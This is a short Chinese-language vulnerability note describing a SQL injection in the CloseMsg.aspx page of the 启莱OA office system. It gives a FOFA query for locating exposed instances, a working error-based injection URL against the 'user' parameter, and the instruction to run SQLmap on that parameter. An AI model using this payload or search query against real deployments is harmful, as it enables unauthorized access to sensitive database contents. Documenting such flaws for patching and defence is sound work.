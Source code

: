 # 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](D:\知识星球\image\ql-1-1621166871878.png)

存在SQL注入的文件为 CloseMsg.aspx 

```
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```



![](http://wikioss.peiqi.tech/vuln/ql-6.png)

使用SQLmap对参数 user 进行注入

![](http://wikioss.peiqi.tech/vuln/ql-7.png)

## Goby & POC

